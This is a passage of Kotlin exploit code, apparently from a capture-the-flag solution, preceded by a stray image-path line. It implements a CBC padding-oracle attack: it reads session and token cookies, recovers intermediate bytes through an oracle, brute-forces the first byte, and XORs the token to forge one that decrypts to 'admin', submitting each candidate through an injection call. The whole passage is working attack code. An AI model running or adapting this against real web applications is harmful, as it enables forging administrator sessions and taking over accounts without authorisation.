 ```kotlin
    val body = "{}".toRequestBody("application/json".toMediaType())
    val request = Request.Builder()
        .url(url)
        .header("Cookie", "${casCookie}foo=bar")
        .post(body)
        .build()
    val response = client.newCall(request).execute()
    val responseCookie = response.headers("Set-Cookie")
    val cookies = HashMap<String, String>()
    for (setCookie in responseCookie) {
        println(setCookie)
        val match = "([^=]+)=([^\\;]+);?.*".toPattern().matcher(setCookie)
        if (match.matches()) {
            cookies[match.group(1)] = match.group(2)
        }
    }
    phpsession = "${cookies["PHPSESSID"]}"
    originToken = "${cookies["token"]}".replace("%3D", "=")
    token = String(Base64.decodeBase64(originToken))
}

fun main() {
    while (true) {
//        getSessionAndToken()
        println(phpsession)
        println(originToken)
        val middle1 = paddingOracle(N)
        println(middle1)
        println(middle1.length)
        if (middle1.length + 1 == 16) {
            for (i in 0 until 256) {
                val middle = i.toChar() + middle1
                println("token:${token}")
                println("middle:${middle}")
                val plaintext = xor(middle, token)
                println("plaintext:${plaintext}")
                val des = pad("admin", N)
                var tmp = ""
                for (j in 0 until 16) {
                    tmp += (token[j].code xor plaintext[j].code xor des[j].code).toChar()
                }
                val encodeTmp = String(Base64.encodeBase64(tmp.toByteArray()))
                println("tmp:${encodeTmp}")
                val result = injectToken(encodeTmp)
                println(result)
                println()
            }
        }
    }
}
```
